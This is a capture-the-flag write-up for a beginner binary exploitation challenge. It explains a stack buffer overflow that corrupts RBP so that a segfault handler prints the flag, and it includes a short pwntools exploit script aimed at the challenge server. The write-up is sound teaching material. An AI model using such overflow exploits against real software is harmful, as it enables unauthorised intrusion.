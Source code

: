 # pwn-1: the truth

<img src="images/pwn-1.jpg"></img>

## Prompt 

The **Ministry of Truth** will help you accept the **truth**. Never settle for the **false** teachings of the Brotherhood. The **Ministry of Truth** provides you the attached linux binary to exploit the **truth**. The binary is also running on a remote server where it protects the truth in a file called flag.txt. Capture the flag from the remote server.  Big brother grants you the following code to connect to the remote server.

```python
from pwn import * 
p=remote("bigbrother-pwn-1.chals.io", 443, ssl=True, sni="bigbrother-pwn-1.chals.io")
p.interactive()
```


## Solution

The challenge provides the [source code](src/chal.c). Notably, it registers a signal handler for ``SIGSEGV`` (segmentation faults). It also ``reads()`` 24 bytes into an 8-byte variable, overflowing the stack and corrupting the execution flow. We see that when ``*rbp_value == 0x4E4E4E4E4E4E4E4E``, the program will print the flag. We can influence the RBP register by overflowing the stack. To set RBP to 0x4E4E4E4E4E4E4E4E, we will send input of b'N'*24 (aka b'\x4E'*24.)

```c
void sigsegv_handler(int signal)
{
    uint64_t *rbp_value = 0;
    __asm__("mov %%rbp, %0;"
            : "=r"(rbp_value));
    if (*rbp_value == 0x4E4E4E4E4E4E4E4E)
    {
        system("cat flag.txt");
    }
    else
    {
        slow_printf("<<< You are mad\n");
    }
    exit(0);
}
````
We can automate this with a [pwntools](https://docs.pwntools.com/en/stable/) script. 

```python
from pwn import *

p=remote("bigbrother-pwn-1.chals.io", 443, ssl=True, sni="bigbrother-pwn-1.chals.io")
p.sendlineafter(b' >>>', b'N'*24)
p.interactive()

```
